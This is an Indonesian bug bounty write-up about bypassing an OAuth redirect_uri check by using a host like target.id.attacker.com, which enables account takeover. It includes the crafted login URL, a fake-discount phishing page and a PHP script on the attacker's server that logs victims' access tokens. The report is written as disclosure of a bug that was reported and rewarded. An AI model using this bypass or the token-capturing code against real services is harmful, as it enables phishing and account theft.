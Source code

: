 ```yaml
---
layout: post
title: Bypass Open Redirect + Takeover Account (OAuth)
categories: [Web Security, Bug bounty write-up]
author: Rafshanzani Suhada
---
```


Mungkin kalian sudah tidak asing lagi dengan metode `Takeover Account (OAuth)` yang memanfaatkan param `redirect_uri`. Diartikel ini akan menjelaskan Bypass Open Redirect yang mengakibatkan akun diambil alih. Untuk penjelasan apa itu Open Redirect dan Akun takeover kalian dapat membacanya diartikel berikut: 

* https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
* https://www.imperva.com/learn/application-security/account-takeover-ato/

Pada umumnya bug ini hanya menambahkan / merubah param menjadi `redirect_uri=https://attacker.com`, namun pada kasus ini saya mendapatkan error pada saat menambahkan param tersebut. Lalu saya muncul ide untuk merubahnya menjadi `redirect_uri=https://target.com.attacker.com/`, cukup kaget dan ini ternyata berhasil.

![Terkejut](https://infosec.zerobyte.id/images/shock.gif)

Jika kurang jelas saya akan menjelaskan lebih detail.

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://attacker.com/
```

Pada saat melakukan request tersebut terdapat **error**, Lalu saya merubah param `redirect_uri` menjadi `https://target.id.attacker.com/` dan ternyata berhasil mengalihkan url, jadi request berubah seperti berikut:

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/
```

---

## Skenario

### Server (target.id.attacker.com)

Membuat file yang seolah olah target.id memiliki diskon untuk membeli produk

File: POC.html

```html
<!DOCTYPE html>
<html>
<body>

<h1>Discount 80% Plan Business</h1>

<p><a href="https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/">CLAIM NOW!</a></p>

</body>
</html>
```

File: index.php

```php
<?php
function redirect($url)
{
   header('Location: ' . $url);
   die();
}

$token = "$_SERVER[REQUEST_URI]";

$filetoken = fopen("token_param.txt", "a+") or die("Unable to open file!");
fwrite($filetoken, $token .PHP_EOL);
fclose($myfile);

redirect('https://target.id' . $token);
```

### Steps to Reproduce

* Attacker Mengirim url <https://target.id.attacker.com/POC.html> ke victim
* Ketika diklik "CLAIM NOW" oleh victim maka akan dialihkan ke target.id

Setelah proses tersebut selesai attacker melihat isi file `token_param.txt` yang dimana file tersebut tersimpan `ACCESS TOKEN` dan dapat digunakan untuk login victim.

### Bagaimana cara ambil alih akun dengan token tersebut?

Attacker dapat melakukan login hanya menggunakan `ACCESS TOKEN` tersebut. 

```
https://target.id/{TOKEN_PARAM}
```

---

Pada platform bugbounty di Bugcrowd termasuk P2 (Priority 2) atau High.

![Bugcrowd](https://infosec.zerobyte.id/images/OAuth_Bugcrowd_P2.png)

Dalam kasus ini saya melakukan report diplatform Bugcrowd & mendapatkan reward sebesar $400

![Hore](https://infosec.zerobyte.id/images/Prof-reward_1.png)

Mohon maaf jika yang saya jelaskan kurang jelas, karena saya memang tidak begitu pandai membuat tulisan.

"Tetaplah rendah hati dan selalu memiliki keinginkan untuk menjadi sesuatu yang diinginkan."